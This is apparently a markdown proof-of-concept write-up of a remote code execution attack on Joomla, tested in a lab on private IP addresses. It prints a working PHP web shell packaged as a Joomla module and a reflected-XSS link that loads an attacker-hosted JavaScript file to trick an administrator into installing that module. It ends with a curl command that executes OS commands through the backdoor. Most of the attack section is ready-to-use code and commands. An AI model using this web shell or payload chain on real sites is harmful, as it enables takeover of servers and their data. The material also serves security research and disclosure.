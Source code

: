 # [RCE] Install Module

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `mod_RCE_PoC.php`

    (`mod_RCE_PoC.xml`)

    ```
    <?xml version="1.0" encoding="utf-8"?>
    <extension type="module" version="3.8" client="site" method="upgrade">
    	<name>Joomla RCE PoC</name>
    	<creationDate>Feb 2024</creationDate>
    	<author>test</author>
    	<authorEmail>test@localhost</authorEmail>
    	<authorUrl>https://localhost</authorUrl>
    	<copyright>test</copyright>
    	<version>1.0</version>
    	<files>
    		<filename module="mod_RCE_PoC">mod_RCE_PoC.php</filename>
    		<filename>mod_RCE_PoC.xml</filename>
    	</files>
    </extension>
    ```

    (`mod_RCE_PoC.php`)

    ```
    <?php
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create Joomla module

    ```
    zip mod_RCE_PoC.zip mod_RCE_PoC.xml mod_RCE_PoC.php
    ```

3. [setup exploit] change payload variable values (`installModuleJoomla.js`)

    `exploitURL` - URL of Joomla module (containing backdoor) to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload/module)

5. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

6. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/installModuleJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.13` - web server hosting payload

7. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.19/modules/mod_rce_poc/mod_RCE_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on values specified in installed module

8. [uninstall module] uninstall module via GUI

    *Joomla ➔ System ➔ [Manage] Extensions ➔ (sort by latest ID) ➔ (mark checkbox) Joomla RCE PoC ➔ Uninstall ➔ Yes*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 7 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_install_module_-_1-1.png)
